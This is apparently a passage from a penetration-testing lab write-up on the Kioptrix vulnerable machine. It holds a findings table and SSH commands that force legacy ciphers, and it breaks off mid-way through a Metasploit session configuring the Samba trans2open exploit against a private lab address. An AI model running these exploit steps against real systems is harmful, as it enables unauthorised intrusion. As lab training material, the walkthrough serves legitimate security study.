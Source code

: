 | Time                | command/module | Finding                                            |
| ------------------- | -------------- | -------------------------------------------------- |
| 2019-12-31 13:22:06 | nmap           | OpenSSH 2.9p2                                      |
| 2019-12-31 13:44:47 | ssh            | old key exchange / ciphers <br> DH SHA1/AES128-CBC |

###### SSH

```bash
ssh 192.168.88.129
```

```bash
Unable to negotiate with 192.168.88.129 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1
```

```bash
ssh 192.168.88.129 -oKexAlgorithms=diffie-hellman-group-exchange-sha1
```

```bash
Unable to negotiate with 192.168.88.129 port 22: no matching cipher found. Their offer: aes128-cbc,3des-cbc,blowfish-cbc,cast128-cbc,arcfour,aes192-cbc,aes256-cbc,rijndael128-cbc,rijndael192-cbc,rijndael256-cbc,rijndael-cbc@lysator.liu.se
```

```bash
ssh 192.168.88.129 -oKexAlgorithms=diffie-hellman-group-exchange-sha1 -c aes128-cbc
```

```bash
root@192.168.88.129's password:
```

### Exploit

#### trans2open

```bash
msf5 > workspace
  kioptrix
* **Default
msf5 > workspace kioptrix
[*] Workspace: kioptrix
msf5 > use exploit/linux/samba/trans2open
msf5 exploit(linux/samba/trans2open) > show options

Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


msf5 exploit(linux/samba/trans2open) > set RHOSTS 192.168.88.129
RHOSTS => 192.168.88.129
msf5 exploit(linux/samba/trans2open) > options
Module options (exploit/linux/samba/trans2open):

```